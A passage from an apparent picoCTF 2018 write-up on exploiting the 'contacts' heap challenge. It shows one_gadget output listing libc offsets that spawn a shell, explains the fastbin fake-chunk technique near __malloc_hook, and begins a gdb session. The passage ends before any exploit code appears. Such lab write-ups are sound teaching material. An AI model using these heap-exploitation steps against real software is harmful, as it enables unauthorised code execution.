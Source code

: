 ## Exploitation

First up, we know we'll need a `one_gadget` to jump to, so let's find one:

```
$ one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
{:.contains-term}

Once again, we'll use the second one on the list, offset `0x4526a`.

The premise of this thesis so far is that in the vicinity of one of the main function pointers (`__free_hook`/`__malloc_hook`/etc) there is a bit of memory that looks like a valid chunk header for a chunk inside a fastbin. To verify this, what we will do is launch the executable inside a debugger, make at least one memory allocation to initialize the heap, then break and examine memory (*you can break into the debugger while the program is running using "CTRL+C"*).

```
$ gdb contacts
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from contacts...
(No debugging symbols found in contacts)
(gdb) r
Starting program: /mnt/c/Users/Steadman/Documents/Andrew/picoctf2018/contacts/contacts
Available commands:
        display - display the contacts
        create [name] - create a new contact
        delete [name] - delete an existing contact
        bio [name] - set the bio for an existing contact
        quit - exit the program

Enter your command:
> create a
Created contact "a"

Enter your command:
```